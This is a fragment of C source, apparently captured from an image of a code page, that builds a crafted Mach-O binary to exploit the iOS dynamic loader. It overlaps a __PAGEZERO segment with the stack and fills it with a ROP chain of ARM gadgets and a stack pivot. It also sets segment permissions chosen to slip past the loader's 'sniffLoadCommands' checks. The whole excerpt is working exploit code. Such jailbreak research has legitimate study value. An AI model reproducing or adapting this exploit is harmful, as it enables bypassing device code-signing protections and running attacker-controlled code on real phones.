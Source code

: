     /* segment overlap over the stack */
    
    load_cmd_seg.vmaddr = 0x110000; // overlap with stack
    load_cmd_seg.fileoff = fsz;
    load_cmd_seg.filesize = 0x100000;
    load_cmd_seg.vmsize = 0x100000;
    strcpy(&load_cmd_seg.segname[0], "__PAGEZERO"); // must be __PAGEZERO
    memcpy(buf + mh.sizeofcmds + sizeof(mh), &load_cmd_seg, load_cmd_seg.cmdsize);
    mh.sizeofcmds += load_cmd_seg.cmdsize;
    mh.ncmds++;
    stack = (uint32*)(buf + fsz);
    
    for (int n = 0; n < 0x100; n++) {
        for (int i = 0; i < 0x1000/4;) {
            
            stack[(n*0x1000/4) + (i++)] = pop_r7pc; // POP {R7,PC}
            stack[(n*0x1000/4) + (i++)] = pop_r4r7pc; // POP {R4,R7,PC}
        }
        int c = 0x3F0;
        stack[(n*0x1000/4) + (c++)] = pop_r4r7pc; // PC
        stack[(n*0x1000/4) + (c++)] = ( (n) << 12 ); // R4
        stack[(n*0x1000/4) + (c++)] = 0x47474747; // R7
        stack[(n*0x1000/4) + (c++)] = mov_r0_r4_pop_r4r7pc; // PC
        stack[(n*0x1000/4) + (c++)] = 0x52000000 - 8; // R4
        stack[(n*0x1000/4) + (c++)] = 0x47474747; // R7
        stack[(n*0x1000/4) + (c++)] = str_r0_r4_8_pop_r4r7pc; // PC
        stack[(n*0x1000/4) + (c++)] = 0x51004000; // R4
        stack[(n*0x1000/4) + (c++)] = 0x47474747; // R7
        stack[(n*0x1000/4) + (c++)] = mov_sp_r4_pop_r4r7pc; // PC
        
    }
    fsz += load_cmd_seg.filesize;
    
    load_cmd_seg.fileoff = 0;
    load_cmd_seg.filesize = (uint32_t)0x1000;
    load_cmd_seg.vmsize = (uint32_t)0x1000;
    load_cmd_seg.vmaddr = 0x4FF00000;
    load_cmd_seg.initprot = PROT_READ|PROT_EXEC; // must be EXEC to pass sniffLoadCommands
    load_cmd_seg.maxprot = PROT_READ|PROT_EXEC; // must be EXEC to pass sniffLoadCommands
    load_cmd_seg.cmd = LC_SEGMENT;
    load_cmd_seg.cmdsize = sizeof(load_cmd_seg);
    load_cmd_seg.flags = 0;
    load_cmd_seg.nsects = 0;
    strcpy(&load_cmd_seg.segname[0], "__LC_TEXT");
    memcpy(buf + mh.sizeofcmds + sizeof(mh), &load_cmd_seg, load_cmd_seg.cmdsize);
    mh.sizeofcmds += load_cmd_seg.cmdsize;
    mh.ncmds++;
    fsz += load_cmd_seg.filesize;
    
    
    load_cmd_seg.initprot = PROT_READ;
    load_cmd_seg.maxprot = PROT_READ;
    load_cmd_seg.fileoff = fsz;
    load_cmd_seg.vmsize = 0x1000;
    load_cmd_seg.vmaddr = 0x50000000+g_data_vmsize+g_text_size+g_lnk_size+0x1000;
    load_cmd_seg.filesize = 0x1000;
    strcpy(&load_cmd_seg.segname[0], "__LINKEDIT");
    memcpy(buf + mh.sizeofcmds + sizeof(mh), &load_cmd_seg, load_cmd_seg.cmdsize);
    mh.sizeofcmds += load_cmd_seg.cmdsize;
    mh.ncmds++;
    fsz += load_cmd_seg.filesize;
    